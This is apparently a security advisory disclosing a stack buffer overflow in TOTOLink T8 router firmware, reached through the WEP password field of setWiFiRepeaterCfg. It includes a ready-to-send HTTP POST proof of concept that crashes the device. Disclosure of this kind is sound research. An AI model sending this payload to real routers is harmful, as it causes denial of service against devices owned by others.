




# TOTOLink Vulnerability

Vendor:TOTOLink 

Product:T8

Version:V4.1.5cu.862_B20230228(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the sub_418D88 function, when the encrypt parameter is "WEP" , the password parameter is obtained via websGetVar(a1, "password", &byte_43469C) and directly passed to the strcpy function, copying to the target buffer v52. The strcpy function does not restrict the length of the input v6 (i.e., password), and the target buffer v52 is a fixed-size array (_BYTE v52[32]). When the password parameter is excessively long (exceeding 31 bytes, accounting for the null terminator), strcpy(v52, v6) can trigger a buffer overflow, overwriting adjacent stack data or the return address, resulting in a Denial of Service (DoS) attack.


<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.6.15

Content-Length: 584

X-Requested-With: XMLHttpRequest

Accept-Language: en-US,en;q=0.9

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Origin: http://192.168.6.15

Referer: http://192.168.6.15/phone/login.html

Accept-Encoding: gzip, deflate, br

Connection: close


{"topicurl":"setWiFiRepeaterCfg",

 "encrypt": "WEP",

"password": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

}
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>